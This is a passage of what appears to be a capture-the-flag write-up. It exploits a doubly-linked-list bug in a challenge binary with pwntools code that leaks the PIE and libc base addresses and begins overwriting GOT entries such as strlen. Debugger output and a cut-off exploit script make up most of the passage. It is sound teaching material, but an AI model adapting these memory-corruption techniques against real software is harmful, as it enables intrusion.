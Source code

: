 {% highlight Python %}
def exploit(r):
    f("AAA=aaaa")
    f("delete:AAA")
    f("BBB=bbbb")
    r.interactive()
{% endhighlight %}

When we view this in the debugger, we get this!

```
# Node for node "BBB"
                     +--------------<---------------+
                     |                              |
0x0000555555557594│  +->--- 0x0000555555557594  ->--+
0x000055555555759c│+0x0008: 0x0000555555557584  →  0x0000555555557594  →  0x0000555555557594  →  [loop detected]
0x00005555555575a4│+0x0010: 0x0000000000000000
```

By some magic, we've created a situation where `node->data == node`.
This gives us a cool behaviour, because it will allow for `&node->next == &node->data.name`.

This means we can control the doubly-linked-list!

With some more magickery, this powerful primitive allows us to solve the challenge by overwriting a pointer in GOT.

{% highlight Python %}
def exploit(r):
    f = lambda x : r.sendafter(">>> ", x)

    # Leak
    f("AAA=aaaaaa")
    f("BBB=bbbb")
    f("delete:BBB")
    f("CCC=cccc\n")
    f("CCC")
    pie_base = u64(r.recvline().rstrip().ljust(8, '\x00'))-0x3594
    log.info("pie_base: {:#x}".format(pie_base))

    # Got pointer (leak exit)
    f("GOT="+p64(pie_base+e.got["exit"])[:6])
    f("clear")

    # Arbitrary Chunk (libc leak)
    f("AAA=aaaa")
    f("delete:AAA")
    f("BBB=bbbb")
    g = lambda x: p32((pie_base+x)&0xffffffff)
    f("edit:"+g(0x3608))
    sleep(0.1)
    r.send(g(0x35dc))
    f("\n")
    libc_base = u64(r.recvline().rstrip().ljust(8, '\x00'))-libc.symbols["exit"]
    log.info("libc_base: {:#x}".format(libc_base))
    f("clear")

    # Got pointer (overwrite strlen)
    f("GOT="+p64(pie_base+e.got["strlen"]-8)[:6])
    f("clear")
